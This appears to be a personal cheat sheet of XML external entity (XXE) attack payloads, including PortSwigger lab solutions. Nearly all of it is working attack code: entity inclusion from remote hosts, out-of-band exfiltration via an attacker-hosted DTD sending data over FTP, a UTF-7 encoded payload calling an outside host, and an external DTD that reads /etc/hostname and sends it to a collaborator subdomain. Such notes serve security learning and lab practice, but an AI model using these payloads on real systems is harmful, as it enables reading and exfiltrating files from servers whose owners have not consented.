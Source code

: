 **XEE #2 (Remote attack - through external xml inclusion)**

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "<https://example.com/entity1.xml>">]>
<lolz><lol>3..2..1...&test<lol></lolz>

```

**XXE FTP HTTP Server**

https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb

http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html

```xml
<!DOCTYPE data [
<!ENTITY % remote SYSTEM "<http://publicServer.com/parameterEntity_sendftp.dtd>">
%remote;
%send;
]>
<data>4</data>

File stored on <http://publicServer.com/parameterEntity_sendftp.dtd>

<!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">
%param1;
```

**XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

To convert between UTF-8 & UTF-7 use recode. `recode UTF8..UTF7 payload-file.xml`

*   [ ] [**Blind XXE with out-of-band interaction**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

    **Exploit**

    ```jsx
    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://604s4g1hgg9g6irk4v41hsjt2k8bw4kt.oastify.com"> ]>
    <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
    ```
*   [ ] [**Exploiting blind XXE to exfiltrate data using a malicious external DTD**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

    **External DTD**

    ```jsx
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
    %eval;
    %exfil;
    ```
